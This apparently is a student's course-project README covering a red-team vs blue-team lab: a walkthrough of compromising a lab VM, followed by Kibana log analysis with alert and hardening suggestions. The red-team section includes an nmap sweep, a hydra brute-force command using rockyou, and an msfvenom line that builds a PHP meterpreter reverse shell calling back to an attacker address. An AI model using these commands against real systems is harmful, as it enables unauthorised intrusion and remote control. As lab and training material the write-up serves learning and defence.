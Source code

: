 # UCLA Project II - Red vs. Blue Engagement
## by Kurt Anderson

In this project I will work on a Red Team vs. Blue Team scenario in which I will play the roles of both Pentester and Security Operations Center Analyst.

As the Red Team, I will attack a vulnerable VM within my created virtual environment, ultimately gaining root access to the machine.
As the Blue Team, I will use Kibana to review logs taken during the Red Team engagement. I will then use the logs to extract hard data and visulaizations for my report, using it to interpret my log data to suggest mitigation measures for each exploit that I've successfully performed as a Pentester.

Day 1 Activity File: Red Team

Complete the following to find the flag:

●	Discover the IP address of the Linux web server.

Command:
	
	nmap -v 192.168.1.0/24 
  
  ![nmap scan of 192.168.1.0/24](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/nmap_scan.jpg)
  
IP address found:
  
	192.168.1.90
	
●	Locate the hidden directory on the web server.

I used dirb to enumerate any directories and identify the hidden folder.

![dirb directory enumeration](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/dirb_enumeration.jpg)
 
●	Brute force the password for the hidden directory using the hydra command:

![Hydra Brute Force](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/hydra.jpg)

Using the username and password I was able to log into the host and found a Personal Note:

Command:

	hydra -l ashton -P /usr/share/wordlists/rockyou.txt

![Personal Note:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/personal_note.jpg)

●	Break the hashed password with the Crack Station website or John the Ripper.
 
![Cracked Password:](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/cracked_password.jpg)

●	Connect to the server via WebDav.

![WebDAV Credentials](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_login.PNG)

●	Upload a PHP reverse shell payload.
Command: 

	msfvenom -p php/meterpreter/reverse_tcp lhost=192.168.1.90 lport=4444 raw > reverse_shell.php

![Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/msvenom.jpg)
![WebDAV File Manager](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_reverse_shell.jpg)
![WebDAV Browswer](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/webdav_upload.jpg)
 
●	Execute the payload that you uploaded to the site to open up a meterpreter session.

![Exploit Payload](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/payload.jpg)
![Exploitation](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/exploitation.jpg)

●	Find and capture the flag.

![Flag Found](https://github.com/kurtxavier11/UCLA_Project_II/blob/main/images/meterpreter.jpg)


Day 2 Activity File: Incident Analysis with Kibana

 
After creating your dashboard and becoming familiar with the search syntax, use these tools to answer the questions below:
1.	Identify the offensive traffic.

○	Identify the traffic between your machine and the web machine:
■	When did the interaction occur?

The interaction occurred on 2021-12-14 03:00

■	What responses did the victim send back?

200, 207, 401, 404, 206, 304, 301

■	What data is concerning from the Blue Team perspective?

The status code ‘OK’ signifying that there was a completed request from the source IP and a response from the destination IP
 

2.	Find the request for the hidden directory.

○	In your attack, you found a secret folder. Let's look at that interaction between these two machines.
■	How many requests were made to this directory? At what time and from which IP address(es)?

There were 16,721 requests made to the directory /secret_folder, at 03:45 from the IP address 192.168.1.90.

■	Which files were requested? What information did they contain?

The file that was requested is the reverse_shell.php file

■	What kind of alarm would you set to detect this behavior in the future?

To detect this behavior in the future, I would set an alert to send an email with a high priority to notify the SOC that this type of request was made to access confidential company folders and data. 

■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

One way to harden the vulnerable machine that would mitigate this attack would be to ensure that the device has been updated and patched regularly in order to mitigate the exploitation of common system vulnerabilities.

3.	Identify the brute force attack.

○	After identifying the hidden directory, you used Hydra to brute-force the target server. Answer the following questions:
■	Can you identify packets specifically from Hydra?

Yes, by searching the ‘user_agent.original” field. 







■	How many requests were made in the brute-force attack?

There were 16,711 requests
 



■	How many requests had the attacker made before discovering the correct password in this one?

It appears that there were 16,711 requests before the correct password was discovered.
 

■	What kind of alarm would you set to detect this behavior in the future and at what threshold(s)?

I would set an alert to email the SOC that the login threshold has been surpassed in a certain amount of time. 


■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
Upon searching through the logs it appeared that most of these requests happened through port 80 on the target machine, so I would suggest to place a firewall to filter out packets coming from outdated user agents like Mozilla 4.0, or close port 80 entirely.
4.	Find the WebDav connection.

○	Use your dashboard to answer the following questions:
■	How many requests were made to this directory?

209 requests were made to the 192.168.1.105/webdav/ directory.
 

■	Which file(s) were requested?

XML files were requested, based on the HTTP request method ‘propfind’, and the status code of 207, which is a response used by webdav servers.

■	What kind of alarm would you set to detect such access in the future?

An alarm to alert the SOC of any PROPFIND requests for Webdav.

■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.

One way to harden the vulnerable machine from PROPFIND is to use multi-factor authentication to help prevent brute-force attacks on webdav logins.

5.	Identify the reverse shell and meterpreter traffic.

○	To finish off the attack, you uploaded a PHP reverse shell and started a meterpreter shell session. Answer the following questions:
■	Can you identify traffic from the meterpreter session?
 

There was a spike in activity from the source IP address 192.168.1.90, which potentially shows that the target machine 192.168.1.105 had been breached, since they share similar patterns in activity. 
■	What kinds of alarms would you set to detect this behavior in the future?
An alert that has a minimum threshold of packet traffic to alert the SOC of any spikes in activity, and is monitored every hour. 

■	Identify at least one way to harden the vulnerable machine that would mitigate this attack.
In order to harden the vulnerable machine to mitigate this attack, I suggest that we require authentication in order to upload files to the webdav server, as well as defining the valid file extension types allowed on the server.
